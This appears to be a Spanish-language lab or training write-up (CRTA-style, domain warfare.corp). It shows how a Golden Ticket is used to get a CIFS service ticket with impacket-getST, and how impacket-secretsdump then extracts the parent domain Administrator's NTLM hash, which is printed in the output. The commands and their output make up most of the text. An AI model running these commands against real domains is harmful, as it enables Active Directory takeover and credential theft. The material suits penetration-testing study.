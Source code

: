 
# 🔹 ¿Qué hace exactamente?

Lee el ticket TGT de corpmngr desde el archivo .ccache (Golden Ticket).

Solicita un Service Ticket (TGS) para el servicio SMB (CIFS/dc01.warfare.corp).

Ese TGS permite luego autenticarse directamente contra el servicio sin necesidad de la contraseña real, usando Kerberos.

getST.py -spn 'CIFS/dc01.warfare.corp' -k -no-pass child.warfare.corp/corpmngr -debug

┌──(kali㉿kali)-[~/Downloads/crta]
└─$ impacket-getST -spn 'CIFS/dc01.warfare.corp' -k -no-pass child.warfare.corp/corpmngr -debug
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] Using Kerberos Cache: corpmngr.ccache
[+] Returning cached credential for KRBTGT/CHILD.WARFARE.CORP@CHILD.WARFARE.CORP
[+] Using TGT from cache
[+] Username retrieved from CCache: corpmngr
[*] Getting ST for user
[+] Trying to connect to KDC at CHILD.WARFARE.CORP:88
[+] Trying to connect to KDC at WARFARE.CORP:88
[*] Saving ticket in corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
                                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Downloads/crta]
└─$ 

export KRB5CCNAME=corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache



# ¿Qué hace el comando?

Con el TGS de CIFS que tienes para corpmngr, se conecta al Parent DC.

Intenta extraer el hash NTLM (y otros secretos si aplica) del usuario Administrator del dominio padre.
Muestra la información en pantalla y/o la guarda en los logs de Impacket.


Estás usando un Golden Ticket y un Service Ticket CIFS para extraer el hash del Administrador del Parent Domain, lo que te permite comprometer completamente la infraestructura de Active Directory sin conocer contraseñas.

┌──(kali㉿kali)-[~/Downloads/crta]
└─$ impacket-secretsdump  -k -no-pass dc01.warfare.corp -just-dc-user 'warfare\Administrator' -debug
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] Using Kerberos Cache: corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
[+] Domain retrieved from CCache: CHILD.WARFARE.CORP
[+] Returning cached credential for CIFS/DC01.WARFARE.CORP@WARFARE.CORP
[+] Using TGS from cache
[+] Changing sname from CIFS/dc01.warfare.corp@WARFARE.CORP to CIFS/DC01.WARFARE.CORP@CHILD.WARFARE.CORP and hoping for the best
[+] Username retrieved from CCache: corpmngr
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Calling DRSCrackNames for warfare\Administrator 
[+] Calling DRSGetNCChanges for {17446816-c072-445e-ac9b-c0e28630bed6} 
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=Administrator,CN=Users,DC=warfare,DC=corp
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b2ab0552928c8399da5161a9eb7fd283:::
[+] Leaving NTDSHashes.__decryptHash
[+] Entering NTDSHashes.__decryptSupplementalInfo